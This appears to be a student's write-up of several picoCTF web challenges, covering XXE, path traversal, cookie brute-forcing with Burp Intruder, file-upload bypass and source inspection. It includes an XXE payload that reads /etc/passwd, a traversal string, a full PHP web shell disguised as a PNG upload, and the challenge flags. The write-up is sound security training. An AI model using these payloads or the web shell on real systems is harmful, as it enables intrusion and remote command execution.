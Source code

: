# SOAP
## Problem
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.
## Thought Process
- Website has some interactive buttons, clicking them sends a request, so I opened the Network Tab to inspect it closely
```html
<form class="detailForm" action="/data" method="POST">
                        <input required="" type="hidden" name="ID" value="1">
                  <button type="submit" class="btn btn-sm
                      btn-outline-secondary">Details</button>
                    </form>
```
- The payload tab seems to imply the existence of some form of xml, which could be exploited by using an XXE (XML External Entity) Injection
- Since we need to use an XXE and modify the payload, I did some research about basic XXE Injections
- To obtain the flag at /etc/passwd, I found this XXE Injection:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
- For some strange reason, any other xxe injection I try on burp suite works but the moment I try the one which should give me `/etc/passwd`, it doesn't work
- I attempted cURLing but it still gives no response, so I am going to have to leave this level on hold for the time being
- Tried again after 2 days, worked this time. Used BurpSuite to intercept and modify the request.
![image](https://github.com/user-attachments/assets/cdd8fa82-bd6f-421c-81e8-98bff1cb3e02)
# Forbidden Paths
## Problem
We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?
## Thought Process
- Provided with a website called Web eReader, which has a form accepting file names.
![image](https://github.com/user-attachments/assets/81357433-e42c-4148-9791-a7cca3b9160a)
- Tried `flag.txt`, wouldn't be that simple if it was a ctf problem.
- since it says that the absolute path is forbidden, we use the relative path. Therefore, it would be `../../../../../flag.txt`
- flag: `picoCTF{7h3_p47h_70_5ucc355_6db46514}`
# Cookies
## Problem
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/
## Thought Process
- Well this should be a walk in the park, the level being marked as easy, and having done a similar question in OasisCTF 2024.
![image](https://github.com/user-attachments/assets/7265b468-71fb-4d8c-b322-c589ebd2d21a)
- Go to the cookies tab, set the value to some 0 or positive value, and reload the page
![image](https://github.com/user-attachments/assets/44594854-3f0a-4ac7-a06f-0ecdf6e24b71)
- On trying a different value, it returns a different message, e.g. I love chocolate chip cookies. So, I think if we keep trying, we might be able to land on the flag.
- We can try a binary search within the first 100 values, but there is no idea of how many cookie values are acceptable.
- So I tried using BurpSuite's intruder feature, which I was trying out on the previous level while trying to comprehend how the software works.
- It basically simplifies the bruteforce as I just have to specify the payload type and range, followed by a grep specification for extraction the flag. It completely removes the need of a script from the process.
- After adding the specification to extract results containing the flag format, I ran the intruder.
![image](https://github.com/user-attachments/assets/85737b18-4dd6-4d89-baed-09779b83a42b)
![image](https://github.com/user-attachments/assets/91fa4e18-ca33-46b0-8207-8c5440dfe72e)
- Set cookie name as payload position hit start attack
- Well, by the look of it, I might have done it on the wrong request, as a result of which, it always returned name=snickerdoodle
- Retrying with the correct request this time,
![image](https://github.com/user-attachments/assets/411eb00d-e628-4e5e-bf89-f98365e81b7d)
- Well, the payload with a 1 under the `picoCTF{` list is the payload which returns the flag.
![image](https://github.com/user-attachments/assets/f11f207d-292d-4ee4-ae21-e5f9a9b68281)
- flag: `picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}`
# Trickster
## Problem
- A website is given which accepts a `.png` format file. Question Tag suggests the use of web shell, a common method of cyberattack.
## Thought Process
![image](https://github.com/user-attachments/assets/432a3182-a482-4670-a9a6-569d6075ed9d)
- Did the usual checks, saw the requests, cookies on the inspect element window. Found nothing there, so I proceeded with a check for `/robots.txt`.
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
- Opening `/instructions.txt`
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
- The conditions seem rather vague, since it could accept a `.png.php` file or the first few bytes of a text file could also be set to `PNG` to fool the website into thinking it is a valid upload.
- Using a basic webshell script obtained online, I added PNG before the script and uploaded it to the website as `Untitled.png.php`
```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```
- Now, I go to `/uploads/Untitled.png.php`
![image](https://github.com/user-attachments/assets/164629ea-9eea-41f1-971b-8569b0a.71df2)
- I have a web shell which I can use to remotely access the resources
- Checking the `/` directory
- ![image](https://github.com/user-attachments/assets/023aa0b5-3d14-4a6e-aa01-476a44a12d4c)
- checking the contents of various directories, I discovered the path `/var/www/html`
![image](https://github.com/user-attachments/assets/73d5d748-ff2a-47a4-9e24-358d7e2b9205)
- Reading the contents of the `HFQWKODGMIYTO.txt` file
![image](https://github.com/user-attachments/assets/d4beca37-38fc-41df-84e1-9f3584c4d429)
flag: `picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}`
# Search Source
## Problem
- The developer of this website mistakenly left an important artifact in the website source. The important artifact could lead us to the flag somehow.
![image](https://github.com/user-attachments/assets/0c95e2a7-bb15-473e-93db-8dd8863c5e31)
- This is the website we are led to.
- Searching for pico in the source code, I found the flag in one of the `.css` files.
  ![image](https://github.com/user-attachments/assets/34faf139-19b7-44c1-9fd3-aee5255fbf54)
flag:`picoCTF{1nsp3ti0n_0f_w3bpag3s_587d12b8}`
